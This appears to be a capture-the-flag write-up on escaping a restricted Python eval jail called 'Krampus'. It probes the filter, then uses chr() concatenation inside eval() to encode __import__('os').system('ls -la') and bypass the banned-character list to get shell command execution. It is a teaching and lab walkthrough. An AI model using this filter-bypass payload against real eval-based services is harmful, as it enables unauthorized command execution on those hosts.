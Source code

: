 	help> 
	You are now leaving help and returning to the Python interpreter.
	If you want to ask for help on a particular object directly from the
	interpreter, you can type "help(object)".  Executing "help('string')"
	has the same effect as typing a particular string at the help> prompt.
	None
	<You>: 

Many chars are not allowed: symbols like `*/[]'".` and spaces are not allowed

	<You>: str(help)
	<Krampus>: Type help() for interactive help, or help(object) for help about object.
	<You>: str(help)[1]
	<Server>: Krampus grows angry.
	<You>: list(str(help))
	<Krampus>: ['T', 'y', 'p', 'e', ' ', 'h', 'e', 'l', 'p', '(', ')', ' ', 'f', 'o', 'r', ' ', 'i', 'n', 't', 'e', 'r', 'a', 'c', 't', 'i', 'v', 'e', ' ', 'h', 'e', 'l', 'p', ',', ' ', 'o', 'r', ' ', 'h', 'e', 'l', 'p', '(', 'o', 'b', 'j', 'e', 'c', 't', ')', ' ', 'f', 'o', 'r', ' ', 'h', 'e', 'l', 'p', ' ', 'a', 'b', 'o', 'u', 't', ' ', 'o', 'b', 'j', 'e', 'c', 't', '.']

Many functions are allowed.

	<You>: print(1)
	<Krampus>: 1

	<You>: print()
	<Krampus>: ()
	

but each query is a different instance. As seen, exiting does not show a `<Server>` prompt

	<You>: exit(1)
	<You>: a=1
	<You>: print(a)
	<Server>: Krampus stares back.
	
So now let's try some strings usingchr() function. We can also make eval() calls

	// This is A+B+C
	<You>: chr(65)+chr(66)+chr(67)
	<Krampus>: ABC
	
	// This is eval(0+3)
	<You>: eval(chr(48)+chr(43)+chr(51))
	<Krampus>: 3

---

I created a helper script to do conversions.

Now let's try `__import__('os').system('ls -la')`.

	>>> from helper import *
	>>> 'eval(' + krampus_string("__import__('os').system('ls -la')") + ')'

	'eval(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(111)+chr(115)+chr(39)+chr(41)+chr(46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)+chr(40)+chr(39)+chr(108)+chr(115)+chr(32)+chr(45)+chr(108)+chr(97)+chr(39)+chr(41))'	'chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(111)+chr(115)+chr(39)+chr(41)+chr(46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)+chr(40)+chr(39)+chr(108)+chr(115)+chr(39)+chr(41)'
